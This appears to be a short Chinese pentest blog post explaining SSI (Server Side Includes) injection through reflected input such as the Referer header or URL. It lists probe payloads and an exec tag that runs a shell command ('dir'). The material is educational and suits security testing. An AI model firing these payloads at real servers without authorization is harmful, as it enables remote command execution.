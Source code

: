 ```yaml
---
draft: false
date: 2017-06-08 11:20:15
title: SSI 注入
description: 
categories:
  - Pentest
tags:
  - SSI注入
---
```


### 0x00 SSI
SSI (Server Side Includes)是HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

在很多场景中，用户输入的内容可以显示在页面中，一个存在反射XSS漏洞的页面，如果输入的payload不是xss代码而是ssi的标签，服务器又开启了ssi支持的话就会存在SSI漏洞

若注入点在url中则可能需要进行url编码

### 0x01 payload
```
"-->'-->`--><!--#set var="a" value="123"--><!--#set var="b" value="654"--><!--#echo var="a"--><!--#echo var="b"-->

<!--#echo var="DATE_LOCAL" -->

<!--#exec cmd="dir" -->
```

### 0x02 示例
* Referer被输出到了页面中

![ssi漏洞](/img/post/ssi_in_referer_request.png)

![ssi漏洞](/img/post/ssi_in_referer_response.png)

* url中的数据被输出到页面中(有时候url中的payload需要url编码)

![ssi漏洞](/img/post/ssi_in_url_request.png)

![ssi漏洞](/img/post/ssi_in_url_response.png)
